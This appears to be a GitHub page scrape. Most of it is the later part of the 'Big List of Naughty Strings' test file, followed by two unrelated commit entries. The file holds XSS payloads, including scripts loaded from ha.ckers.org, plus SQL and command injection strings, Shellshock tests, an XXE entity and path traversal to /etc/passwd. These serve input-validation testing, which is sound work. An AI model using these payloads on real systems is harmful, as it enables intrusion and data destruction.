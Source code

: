 `> <img src onerror /" '"= alt=javascript:alert(1)//"> <title onpropertychange=javascript:alert(1)></title><title title=> <a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">   <script src="/\%(jscript)s"></script> <script src="\\%(jscript)s"></script> <IMG """><SCRIPT>alert("XSS")</SCRIPT>"> <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> <IMG SRC=# onmouseover="alert('xxs')"> <IMG SRC= onmouseover="alert('xxs')"> <IMG onmouseover="alert('xxs')"> <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;> <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041> <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29> <IMG SRC="jav   ascript:alert('XSS');"> <IMG SRC="jav&#x09;ascript:alert('XSS');"> <IMG SRC="jav&#x0A;ascript:alert('XSS');"> <IMG SRC="jav&#x0D;ascript:alert('XSS');"> perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out <IMG SRC=" &#14;  javascript:alert('XSS');"> <SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT> <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")> <SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT> <<SCRIPT>alert("XSS");//<</SCRIPT> <SCRIPT SRC=http://ha.ckers.org/xss.js?< B > <SCRIPT SRC=//ha.ckers.org/.j> <IMG SRC="javascript:alert('XSS')" <iframe src=http://ha.ckers.org/scriptlet.html < \";alert('XSS');// <u oncopy=alert()> Copy me</u> <i onwheel=alert(1)> Scroll over me </i> <plaintext> http://a/%%30%30 </textarea><script>alert(123)</script>  #	SQL Injection # #	Strings which can cause a SQL injection if inputs are not sanitized  1;DROP TABLE users 1'; DROP TABLE users-- 1 ' OR 1=1 -- 1 ' OR '1'='1   % _  #	Server Code Injection # #	Strings which can cause user to run code on server as a privileged user (c.f. https://news.ycombinator.com/item?id=7665153)  - -- --version --help $USER /dev/null; touch /tmp/blns.fail ; echo `touch /tmp/blns.fail` $(touch /tmp/blns.fail) @{[system "touch /tmp/blns.fail"]}  #	Command Injection (Ruby) # #	Strings which can call system commands within Ruby/Rails applications  eval("puts 'hello world'") System("ls -al /") `ls -al /` Kernel.exec("ls -al /") Kernel.exit(1) %x('ls -al /')  #      XXE Injection (XML) # #	String which can reveal system files when parsed by a badly configured XML parser  <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>  #	Unwanted Interpolation # #	Strings which can be accidentally expanded into different strings if evaluated in the wrong context, e.g. used as a printf format string or via Perl or shell eval. Might expose sensitive data from the program doing the interpolation, or might just represent the wrong string.  $HOME $ENV{'HOME'} %d %s%s%s%s%s {0} %*.*s %@ %n File:///  #	File Inclusion # #	Strings which can cause user to pull in files that should not be a part of a web server  ../../../../../../../../../../../etc/passwd%00 ../../../../../../../../../../../etc/hosts  #	Known CVEs and Vulnerabilities # #	Strings that test for known vulnerabilities  () { 0; }; touch /tmp/blns.shellshock1.fail; () { _; } >_[$($())] { touch /tmp/blns.shellshock2.fail; } <<< %s(un='%s') = %u +++ATH0  #	MSDOS/Windows Special Filenames # #	Strings which are reserved characters in MSDOS/Windows  CON PRN AUX CLOCK$ NUL A: ZZ: COM1 LPT1 LPT2 LPT3 COM2 COM3 COM4  #   IRC specific strings # #   Strings that may occur on IRC clients that make security products freak out  DCC SEND STARTKEYLOGGER 0 0 0  #	Scunthorpe Problem # #	Innocuous strings which may be blocked by profanity filters (https://en.wikipedia.org/wiki/Scunthorpe_problem)  Scunthorpe General Hospital Penistone Community Church Lightwater Country Park Jimmy Clitheroe Horniman Museum shitake mushrooms RomansInSussex.co.uk http://www.cum.qc.ca/ Craig Cockburn, Software Specialist Linda Callahan Dr. Herman I. Libshitz magna cum laude Super Bowl XXX medieval erection of parapets evaluate mocha expression Arsenal canal classic Tyson Gay Dick Van Dyke basement  #	Human injection # #	Strings which may cause human to reinterpret worldview  If you're reading this, you've been in a coma for almost 20 years now. We're trying a new technique. We don't know where this message will end up in your dream, but we hope it works. Please wake up, we miss you.  #	Terminal escape codes # #	Strings which punish the fools who use cat/type on this file  Roses are [0;31mred[0m, violets are [0;34mblue. Hope you enjoy terminal hue But now...[20Cfor my greatest trick...[8m The quick brown fox... [Beeeep]  #	iOS Vulnerabilities # #	Strings which crashed iMessage in various versions of iOS  Powerلُلُصّبُلُلصّبُررً ॣ ॣh ॣ ॣ冗 🏳0🌈️ జ్ఞ‌ా  # Persian special characters # # This is a four characters string which includes Persian special characters (گچپژ)  گچپژ © 2020 GitHub, Inc. Terms Privacy Security Status Help Contact GitHub Pricing API Training Blog About

---
## [EaW-Team/equestria_dev](https://github.com/EaW-Team/equestria_dev)@[168a725cde...](https://github.com/EaW-Team/equestria_dev/commit/168a725cded54bf282241a5a5fb1b0398867fa6e)
#### Wednesday 2020-03-04 15:33:01 by Jas-PY

Update Changeling.txt

remember to review the code for the Love Acquisition decision, it gives too much love when you have only a small amount of controlled states

---
## [RebelLion420/kernel_perry](https://github.com/RebelLion420/kernel_perry)@[064286a626...](https://github.com/RebelLion420/kernel_perry/commit/064286a626381b942fe1683a528e498d75134094)
#### Wednesday 2020-03-04 15:38:10 by Jonathan Toppins

mm: ratelimit PFNs busy info message

commit 75dddef32514f7aa58930bde6a1263253bc3d4ba upstream.
